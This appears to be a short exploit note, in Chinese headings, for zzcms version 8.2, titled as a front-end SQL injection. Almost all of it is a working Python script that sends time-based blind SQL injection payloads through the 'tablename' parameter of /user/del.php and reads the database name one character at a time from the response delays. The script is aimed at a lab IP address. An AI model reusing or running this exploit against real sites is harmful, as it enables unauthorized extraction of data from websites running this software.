

### zzcms

```
版本信息：8.2
```

#### 前台sql注入

```
# /user/del.php
import requests

database = ""
header = {
    # "X-Requested-With": "XMLHttpRequest",
    # "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    # "Cookie": "theme=default; frontLang=zh-cn; __bid_n=184ada2f395ab4dd774207; ECS[visit_times]=2; ishistory=1; gnolt4_admin_username=admin; PHPSESSID=ksj15tsgisn8b7fhq40uvkif11",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.42"
}
proxier = {
    "http": "127.0.0.1:8080"
}

for i in range(1, 10):
    for j in range(47, 127):
        payload = "http://192.168.81.195:12343/user/del.php"
        data = {
            "id": "1",
            "tablename": "zzcms_answer union select 1,2 and if(ascii(substr(database(),{},1))={},sleep(5),1)#".format(
                i, j)
        }

        re = requests.post(url=payload, data=data, headers=header, proxies=proxier, timeout=8)
        # print(re.elapsed.total_seconds())
        if re.elapsed.total_seconds() > 3:
            database += chr(j)
            print(database)

```



